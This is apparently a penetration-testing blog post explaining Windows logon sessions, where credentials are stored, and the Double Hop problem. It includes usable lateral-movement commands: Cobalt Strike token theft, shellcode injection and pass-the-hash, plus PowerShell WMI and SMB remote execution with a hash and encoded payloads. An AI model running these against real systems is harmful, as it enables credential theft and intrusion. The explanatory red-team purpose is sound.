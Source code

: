 ```yaml
---
title: Windows Credential Management, Logon Sessions and the Double Hop Problem
---
```


I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session **will not** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **will** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

```plaintext
steal_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]
```


If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

```plaintext
make_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]
```
Lastly you can directly pass the credentials to the tool performing the network operations like so:

```powershell
$pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass);
Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...'

Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} 
# https://github.com/Kevin-Robertson/Invoke-TheHash 
Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose 

Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose
```

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.
